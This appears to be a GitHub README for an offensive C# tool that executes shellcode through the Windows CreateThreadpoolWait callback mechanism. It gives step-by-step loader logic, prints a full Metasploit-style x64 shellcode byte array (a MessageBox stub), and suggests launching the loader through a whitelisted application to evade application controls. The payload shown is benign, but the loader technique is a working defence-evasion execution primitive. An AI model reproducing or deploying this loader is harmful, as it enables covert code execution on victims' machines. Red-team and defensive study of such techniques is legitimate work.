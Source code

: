 # CreateThreadpoolWait_ShellcodeExecution_CSharp

- Shellcode execution via CreateThreadpoolWait
- Tested on both Win10/x64 and x86 works fine.
- Steps
	1. Create an event with API "CreateEvent", and it return a event handle.
	2. Allocate a memory region for shellcode, in this case is buf1.
	3. Using API "CreateThreadpoolWait" to create a wait object. 1st argument of the function is a callback function, that will be called once the wait ends (immediately in our case, since our waitable event is in the Signaled state from the start). We will pass the address of our shellcode (allocated in step 2) as the callback function.
	4. Using API "SetThreadpoolWait" to set wait object to the wait object created in step 3.
	5. WaitForSingleObject is used to wait for the waitable object to become Signaled, but since our event (waitable) object was created with a Signaled state in step 1, our callback function specified in step 3 is called and the shellcode is executed right away:

- buf1 down below is a messagebox.
```
	/* MessageBox */
	byte[] buf1 = new byte[323] {
		0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,
		0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
		0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,
		0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,
		0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,
		0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
		0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,
		0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,
		0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,
		0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
		0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
		0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x3e,
		0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,
		0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
		0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,
		0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0x1a,0x01,0x00,0x00,0x3e,0x4c,0x8d,
		0x85,0x2b,0x01,0x00,0x00,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,
		0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
		0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
		0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x48,0x65,0x6c,0x6c,0x6f,
		0x2c,0x20,0x66,0x72,0x6f,0x6d,0x20,0x4d,0x53,0x46,0x21,0x00,0x4d,0x65,0x73,
		0x73,0x61,0x67,0x65,0x42,0x6f,0x78,0x00 };
```

## Usage
1. Lanch through some white list application.
![avatar](https://raw.githubusercontent.com/Kara-4search/ProjectPics/main/CreateThreadpoolWait_ShellcodeExecution.png)



## TO-DO list
1. Works on both x86/x64 - DONE


## Reference link:
1. https://www.freesion.com/article/5280116706/
2. https://blog.csdn.net/weixin_43692244/article/details/100596571
3. https://blog.csdn.net/phenixyf/article/details/72328064
4. https://docs.microsoft.com/zh-tw/windows/win32/api/threadpoolapiset/nf-threadpoolapiset-setthreadpoolwait
5. https://docs.microsoft.com/zh-tw/windows/win32/api/threadpoolapiset/nf-threadpoolapiset-createthreadpoolwait
6. https://blog.csdn.net/AlickXc/article/details/44924507
7. https://buaq.net/go-46885.html
8. https://blog.51cto.com/u_13953961/3106435
9. https://www.redteam101.tech/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait
10. 